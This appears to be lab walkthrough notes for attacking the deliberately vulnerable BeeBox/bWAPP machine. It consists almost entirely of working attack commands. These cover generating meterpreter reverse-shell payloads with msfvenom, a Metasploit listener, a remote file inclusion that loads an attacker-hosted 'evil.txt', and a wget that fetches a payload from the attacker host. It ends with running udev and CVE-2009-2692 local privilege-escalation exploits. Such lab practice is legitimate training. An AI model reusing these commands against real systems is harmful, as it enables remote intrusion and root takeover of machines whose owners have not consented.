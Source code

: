 ### BeeBox

"/multi/handler" can be used for txt file reverse shell

msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.112.4 LPORT=4446 -f raw -o /var/www/html/evil.txt
msfconsole  
use exploit/multi/handler   
set LPORT 4446    
set LHOST 192.168.112.4   
set PAYLOAD php/meterpreter_reverse_tcp   
run 

***Remote & Local File Inclusion (RFI/LFI)***

http://192.168.1.135/bWAPP/rlfi.php?language=lang_en.php&action=go  
**Change to:**  
?language=http://192.168.112.4/evil.txt

python -c 'import pty; pty.spawn("/bin/sh")'
id  
whoami  

On Kali:
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.112.4 LPORT=5000 -f elf -o /var/www/html/run
service apache2   
msfconsole  
use exploit/multi/handler 
set LHOST 192.168.112.4 
set LPORT 5000  
set PAYLOAD linux/x86/meterpreter/reverse_tcp 

On BeeBox:  
wget http://192.168.112.4/run -o /tmp/cd un 
gcc cve-2009-1185.c -o /tmp/privescalation  
chmod +x /tmp/privescalation  
cd /tmp 
ps aux | grep udev  
./privescalation (PID discovered with grep minus 1 - e.g. 2864 - 1 = 2863)  


**Easy Way**  
tar -xvf cve-2009-2692.tar  
cd cve-2009-2692  
sh cve-2009-2692.sh 
